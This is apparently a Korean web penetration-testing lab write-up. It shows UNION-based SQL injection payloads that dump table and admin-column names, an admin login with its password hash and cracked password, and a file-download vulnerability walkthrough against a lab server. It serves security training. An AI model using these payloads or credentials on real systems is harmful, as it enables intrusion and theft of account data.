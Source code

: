 <p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/184582642-a751e470-2272-4e3a-863c-1e37ba9216f2.jpg" width = 420>
</p>

```SQL 
' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, GROUP_CONCAT(TABLE_NAME SEPARATOR ' '), 17, 18 FROM INFORMATION_SCHEMA.TABLES -- 
```
(주석인 **--** 뒤에 공백 필요)

현재 사용중인 데이터베이스의 모든 테이블 값이 출력되는 것을 알 수 있다.

이 중에서 노출되면 위험하다고 예상되는 부분인 `USER_PRIVILEGES, add_info, admin_mem, hm_admin_tb`가 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/184585396-1778885b-ce25-4759-9a33-610099b94879.jpg" width = 420>
</p>

```SQL
' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, GROUP_CONCAT(COLUMNS_NAME SEPARATOR ' '), 17, 18 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "HM_ADMIN_TB" -- 
```

* hm_admin_tb
   * `idx admin_status admin_type admin_id admin_pass admin_name admin_phone admin_mobile admin_email admin_grade admin_hit admin_cmt reg_date last_date`

이 테이블에는 관리자 계정에 관한 정보가 들어있는 것을 알 수 있다.

**이와 같은 방식으로 원하는 테이블 명과 컬럼 명 및 세부 정보까지 확인할 수 있다.**

kisecadmin, 35c13251030c2a27deb56fa774ad8b07(kisec)

Httrack, discou...로 숨겨진 admin 페이지 찾기.

### File Download

게시판 등에 저장된 자료에 대해 위치 지정에 대한 제한을 부여하지 않아 웹 서버 내의 비공개 자료를 다운로드 받을 수 있는 취약점입니다.

우선 URL 파라미터에 파일 이름 혹은 파일 번호를 할당하여 데이터를 처리하는 동적 방식, 그리고 다음으로 특정 디렉터리에 파일 링크를 걸어 사용자에게 제공하는 정적 방식이 있습니다. 

#### 취약점 점검 및 모의침투

모의 침투는 공격자 측에서 서버 내의 파일 다운로드 취약점을 활용하여 파일의 저장 경로를 알아내고 이를 통해 서버의 DB 관련 주요 파일을 다운로드 합니다.

* 경로 : 홈 > 커뮤니티 > f-NGS Lab
* 링크 : http://10.200.43.12/kisec/dataRoom/kisec_lab_view.html?idx=26&keyfield=&keyword=

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/184592720-9b51cb9d-488d-42e0-b0de-52ab110899f4.jpg" width = 280>
</p>

`test.txt`파일을 다운로드 받을 수 있는 서비스가 존재한다. 해당 파일을 다운로드 받고 이에 대한 패킷을 프록시 도구인 Burp Suite로 가로채서 저장 경로를 확인합니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183573138-29ed3021-c323-4fc3-8059-59c976a42f7a.jpg" width = 550>
</p>
